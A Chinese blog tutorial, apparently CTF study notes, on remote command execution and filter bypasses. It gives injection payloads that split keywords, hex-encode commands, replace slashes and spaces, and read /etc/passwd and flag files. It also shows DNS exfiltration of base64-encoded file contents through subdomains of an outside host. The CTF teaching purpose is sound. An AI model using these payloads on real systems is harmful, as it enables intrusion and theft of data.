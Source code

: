 +++
author = "Lulaide"
title = "RCE 常见类型及绕过"
date = "2025-03-23"
description = "RCE常见攻击点和利用方法"
tags = [
    "渗透",
    "Linux",
    "CTF"
]
categories = ["教程&文档"]
image = "image.png"
+++
# RCE 常见类型及绕过
![](image.png)
## 命令注入（Command Injection）
常见命令连接词:
- `;` (分号): 允许您按顺序执行多个命令。
- `&&` (与): 仅当第一个命令成功（返回零退出状态）时执行第二个命令。
- `||` (或): 仅当第一个命令失败（返回非零退出状态）时执行第二个命令。
- `&` (后台执行): 在后台执行命令，允许用户继续使用 shell。
- `|` (管道): 将第一个命令的输出作为第二个命令的输入。
常见 Shell 特殊符号:
- `&` : 
    - 1. 在后台执行命令，允许用户继续使用 shell。
    - 2. 特殊文件描述符，如 `&1` 标准输出。
    - 3. `&&` 仅当第一个命令成功（返回零退出状态）时执行第二个命令。
- `$` : 
    - 1. 变量替换,例如 `echo $HOME`
    - 2. 算术扩展 `echo $((1+2))`
    - 3. 命令替换 `echo $(cat flag)`
    - 4. `${}` 进行高级的参数扩展，如字符串截取、默认值、模式替换等
	提供默认值：`${var:-default}`
	字符串长度：`${#var}`
	子串截取：`${var:offset:length}`

- `` ` `` (反引号): 执行命令并将输出作为结果，例如
```bash
echo `date`
```
> 反引号和`$(cmd)`都能进行命令替换，shell先会执行和反引号内或括号内的命令，再执行外层命令
### 命令分隔符绕过
- `%0a`
- `%0d`
### cat 绕过(命令绕过)
- 使用 `echo` 读取
```bash
echo $(<filename)
```
- `base64`
```
base64 flag | base64 -d
```

例题
![](image-4.png)
Payload:
```bash
0.0.0.0 && base64 flag_11213284764042.php | base64 -d
```
![](image-5.png)
### 命令关键词绕过
#### 使用符号分割命令
```bash
c"a"t f"la"g
ca""t fl""ag
w\ho\am\i
who$()ami
who$@ami
```
#### 十六进制编码绕过字符过滤
快速转换:
```bash
echo -n "/etc/passwd" | xxd -p | sed 's/../\\x&/g'
``` 
- `echo -e`绕过
```bash
echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
```
示例
```bash
cat $(echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64")
```
```bash
$(echo -e "\x63\x61\x74") flag
```
- `xxd -r -ps`绕过
```bash
$(xxd -r -ps <(echo 636174)) flag
```

### 斜线绕过
- `${HOME:0:1}`
```bash
cat ${HOME:0:1}etc${HOME:0:1}passwd
```
- `tr` 字符集替换
```bash
echo . | tr '!-0' '"-1'
```
```bash
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```
例题
![](image-6.png)
Payload:
```bash
0.0.0.0 && cat flag_is_here${HOME:0:1}flag_327162425030231.php
```
![](image-7.png)
### 空格绕过
- 使用 `${IFS}`, `$IFS$1`
- 使用 `<` 输入重定向, `<>`
- `{cat,/etc/passwd}`
- `%09` 制表符ASCII码
- 如果能回现报错，就可以使用`$(<filename)`
![](image-3.png)

例题
![](image-1.png)
Payload: 
```bash
0.0.0.0&&cat${IFS}flag_24157125720131.php
```
```bash
0.0.0.0&&cat<flag_24157125720131.php
```
![](image-2.png)

### 综合命令注入练习
![](image-8.png)
先把 `ls` 的结果保存在文件中
```bash
$(ls>1)
```
读取 `ls` 的输出
```bash
$(base64${IFS}1).lulaide.com
```
![](image-9.png)
![](image-10.png)
读取目录下的内容
```bash
$(ls${IFS}fla""g_is_here>1)
$(base64${IFS}1).lulaide.com
```
![](image-11.png)
直接读取 `flag`
```bash
$(base64${IFS}f""lag_is_here${HOME:0:1}fl""ag_123591964811506.php).lulaide.com
```
![](image-12.png)
![](image-13.png)
## 命令行参数注入
命令行的一些概念:
- 选项
通常以短横线（-）或双横线（--）开头，如 -l、--help。
- 参数
不带 - 前缀的字符串，或者也包含在选项中作为参数（例如 -f filename 中的 filename）。
### 例题
来源 -> [x3ctf writeup](http://blog.whale-tw.com/2025/01/27/x3ctf-2025/#submission)
![](image-14.png)
所有上传的文件都会被修改权限为所有用户不可读（root除外）
- 1. 上传 `.txt` 文件，此文件不在 `*` 内，不会被修改权限
- 2. 上传 `--reference=.txt` 文件 ，把 `flag.txt` 的权限修改为与 `.txt` 相同的可读权限
## 代码注入（Code Injection）
### SQL注入
### `eval()`

## 服务器端模板注入（SSTI）
### SSTI注入

## 反序列化漏洞

## 文件包含漏洞（LFI/RFI）
### 本地文件包含

### 远程文件包含
- 1. `data://` 伪协议

   例题
   ![](image-15.png)
- 2. `php://input`
